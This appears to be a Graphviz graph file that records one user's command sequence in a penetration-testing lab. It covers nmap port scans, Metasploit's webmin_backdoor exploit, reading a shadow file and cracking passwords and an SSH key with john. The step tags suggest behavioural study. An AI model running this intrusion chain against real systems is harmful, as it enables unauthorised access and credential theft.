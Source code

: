 // creating graph for user: 54
digraph {
	node [shape=box]
	1 [label="nmap -p 60000-65536 A0 A1 "]
	2 [label="nmap -p 60000-65535 A0 A1 "]
	3 [label="nmap 172.18.1.5 -p 60000-65535 M0 "]
	4 [label="nmap 172.18.1.5 -p 40000-60000 A1 "]
	5 [label="nmap 172.18.1.5 -p 20000-40000 A1 "]
	6 [label="nmap 172.18.1.5 -p 1000-20000 A1 "]
	10 [label="man msfconsole M2 "]
	13 [label="nmap 172.18.1.5 -p 10000 A1 "]
	14 [label="man nmap A1 "]
	15 [label="nmap 172.18.1.5 -p 10000 -sV M1 "]
	18 [label="use exploit/linux/http/webmin_backdoor M8 "]
	19 [label="ls -a A10 "]
	21 [label="ls A10 "]
	23 [label="ls A10 "]
	24 [label="ls -a A10 "]
	26 [label="search webmin M3 "]
	35 [label="ls /usr/share/metasploit-framework A10 "]
	36 [label="ls /usr/share/metasploit-framework/modules A10 "]
	37 [label="ls /usr/share/metasploit-framework/modules/exploits A10 "]
	38 [label="ls /usr/share/metasploit-framework/modules/exploits/linux A10 "]
	39 [label="ls /usr/share/metasploit-framework/modules/exploits/linux/http A10 "]
	40 [label="ls /usr/share/metasploit-framework/modules/exploits/linux A10 "]
	46 [label="show targets A5 "]
	47 [label="show options M5 "]
	50 [label="set LHOST 172.18.1.5 M6 "]
	67 [label="check 172.18.1.5 A7 "]
	73 [label="check 172.18.1.5 A7 "]
	76 [label="check 172.18.1.5 A7 "]
	80 [label="check 172.18.1.5 A7 "]
	86 [label="check 172.18.1.5 A7 "]
	89 [label="check 172.18.1.5 A7 "]
	110 [label="check 172.18.1.5 A7 "]
	113 [label="cat shadow A9 A11 A12 A17 "]
	115 [label="ls A10 "]
	117 [label="ls A10 "]
	118 [label="cat mypasswd.txt A9 A11 A12 A17 "]
	119 [label="john mypasswd.txt A14 "]
	120 [label="john shadow A14 "]
	122 [label="cat shadow A9 A11 A12 A17 "]
	124 [label="cat shadow A9 A11 A12 A17 "]
	126 [label="cat shadow A9 A11 A12 A17 "]
	128 [label="john mypasswd.txt A14 "]
	136 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	184 [label="john id_rsa A14 "]
	185 [label="john --format=SSH id_rsa A14 "]
	186 [label="ssh2john id_rsa > id_rsa.hash A14 A16 "]
	187 [label="cat id_rsa M12 "]
	188 [label="/usr/sbin/ss2john A14 "]
	189 [label="/usr/sbin/ssh2john A14 A16 "]
	190 [label="locate ssh2john A9 A10 A11 A14 A16 A17 "]
	191 [label="/usr/share/john/ssh2john.py id_rsa > id_rsa.hash A14 A16 "]
	192 [label="cat id_rsa.hash A9 A11 A17 "]
	193 [label="john id_rsa.hash A14 "]
	194 [label="ls /usr/share A10 "]
	195 [label="ls /usr/share/wordlists A10 "]
	196 [label="john id_rsa.hash --wordlist=/usr/share/wordlists M14 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 10 [constraint=false]
	10 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 21 [constraint=false]
	21 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 26 [constraint=false]
	26 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 50 [constraint=false]
	50 -> 67 [constraint=false]
	67 -> 73 [constraint=false]
	73 -> 76 [constraint=false]
	76 -> 80 [constraint=false]
	80 -> 86 [constraint=false]
	86 -> 89 [constraint=false]
	89 -> 110 [constraint=false]
	110 -> 113 [constraint=false]
	113 -> 115 [constraint=false]
	115 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 128 [constraint=false]
	128 -> 136 [constraint=false]
	136 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	rankdir=LR
}
